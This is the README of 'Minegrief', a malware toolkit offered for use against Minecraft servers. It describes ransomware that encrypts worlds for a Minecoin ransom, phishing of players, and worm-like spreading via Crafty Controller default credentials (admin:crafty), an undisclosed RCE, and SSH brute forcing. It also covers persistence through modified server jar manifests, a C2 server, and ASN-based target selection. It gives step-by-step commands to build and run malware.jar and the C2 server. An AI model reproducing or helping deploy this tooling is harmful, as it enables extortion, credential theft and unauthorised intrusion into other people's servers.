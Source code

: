 <h1 align="center">
<b>Minegrief</b>
</h1>

<h1 align="center">
  <img src="https://github.com/user-attachments/assets/251374d0-b0d6-4808-91d7-9400f692101e" alt="minegrief" width="500px" height=auto>
  <br>
</h1>

<p align="center">
<a href="https://x.com/_chebuya"><img src="https://img.shields.io/twitter/follow/_chebuya.svg?logo=twitter"></a>
<a href="https://img.shields.io/github/stars/chebuya/minegrief"><img src="https://img.shields.io/github/stars/chebuya/minegrief"></a>
<a href="https://img.shields.io/badge/Java-000000?logo=OpenJDK"><img src="https://img.shields.io/badge/Java-000000?logo=OpenJDK"></a>
<a href="https://opensource.org/license/MIT"><img src="https://img.shields.io/badge/license-MIT-blue"></a>
</p>

<p align="center">
  <a href="#features">Features</a> •
  <a href="#notes">Notes</a> •
  <a href="#targeting">Targeting</a>
</p>

# Features
Encrypt Minecraft worlds and demand a Minecoin ransom.
<video src="https://github.com/user-attachments/assets/2db17e66-bf90-494a-bf67-0815976330ec" autoplay muted loop playsinline style="max-width: 100%;"></video>

Phish connecting Minecraft players.

<video src="https://github.com/user-attachments/assets/67b052fb-45ac-42bb-96d5-a57c177bd353" autoplay muted loop playsinline style="max-width: 100%;"></video>

Self-spreading to other Minecraft servers using an extendable, module-based lateral movement system.
  - Crafty Controller Auth'd RCE - undisclosed, unpatched, intentional(?) Auth'd RCE in Crafty Controller, a panel for Minecraft server management (https://craftycontrol.com/). Check for default creds of admin:crafty or brute force.
  - SSH brute forcing - Classic SSH brute forcing, Minegrief will copy itself over SCP and execute itself if a login is successful

Persistence/stealth by "infecting" the Minecraft server jar file via manifest entry point modification (https://docs.oracle.com/javase/tutorial/deployment/jar/manifestindex.html)

Centralized command and control for system-level control of infected servers.
<video src="https://github.com/user-attachments/assets/428ca357-8954-4efa-aafd-4754bc640040" autoplay muted loop playsinline style="max-width: 100%;"></video>


Extendable transport system, allowing for the creation of customized C2 channels.

Works on Java 8 and above.


# Notes
Lateral movement modules require minegriefagent to be built as a jar file, as modules will copy itself over in a jar to spread.

## To build the agent jarfile
Download jsch to the root directory of the repository
```bash
wget https://repo1.maven.org/maven2/com/github/mwiede/jsch/0.2.17/jsch-0.2.17.jar
unzip jsch-0.2.17.jar
```

Run this from the root of the repository
```bash
rm -rf build-manual
mkdir build-manual
find agent -name '*.java' > sources.txt
<JAVA 1.8 DIR>/bin/javac -d build-manual @sources.txt
cp -r com/jcraft build-manual/com
echo 'Manifest-Version: 1.0\nMain-Class: net.minecraft.bundler.Backdoor\nBundler-Format: 1.0' > manifest.txt
<JAVA 1.8 DIR>/bin/jar cvfm malware.jar manifest.txt -C build-manual .
```

Run it
```bash
<JAVA 1.8 DIR>/bin/java -jar malware.jar
```

## To build the server jarfile
Run this from the root of the repository
```bash
rm -rf build-manual
mkdir build-manual
find server -name '*.java' > sources.txt
<JAVA 1.8 DIR>/bin/javac -d build-manual @sources.txt
echo 'Manifest-Version: 1.0\nMain-Class: com.chebuya.minegriefserver.Main\nBundler-Format: 1.0' > manifest.txt
<JAVA 1.8 DIR>/bin/jar cvfm c2-server.jar manifest.txt -C build-manual .
```

Run it
```bash
<JAVA 1.8 DIR>/bin/java -jar c2-server.jar
```


# Targeting
Minecraft servers will always have Java installed so we don't have to worry about installing it ourselves.

Infected servers will receive CIDR blocks to scan from the C2. Certain ASNs have a higher frequency of Minecraft servers (ex: Digital Ocean ASNs).  I have scraped shodan/censys to find these ASNs, the data is [here](top-asn.csv)


--------

<div align="center">
  
`minegrief` is made with 🖤 by [@_chebuya](https://x.com/_chebuya) and distributed under the [MIT license](LICENSE.md).

</div>
